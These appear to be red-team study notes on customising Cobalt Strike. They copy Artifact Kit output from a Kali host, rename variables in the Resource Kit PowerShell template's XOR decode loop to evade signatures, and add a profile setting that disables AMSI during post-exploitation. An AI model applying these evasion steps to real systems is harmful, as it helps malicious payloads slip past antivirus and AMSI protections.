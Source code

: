 #### Download files to W10
```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```
    
- Make sure C:\tools\cobaltstrike\Artifactkit\dist-pip\artifact.cna is loaded

### Resource-kit
```
notepad C:\tools\cobaltstrike\ResourceKit\template.x64.ps1
```
    
#### Changed all variables in the file from this part --> to
```
for ($x = 0; $x -lt $var_code.Count; $x++) {
  $var_code[$x] = $var_code[$x] -bxor 35
}


for ($i = 0; $i -lt $var_service.Count; $i++) {
	$var_service[$i] = $var_service[$i] -bxor 35
}
```

- Find & Replace for $x -> $i and $var_code -> $var_service.
- Make sure C:\tools\cobaltstrike\Resourcekit\resources.cna is loaded

### Amsi
#### Add the following to the .profile
```
post-ex {
    set amsi_disable "true";
}
```
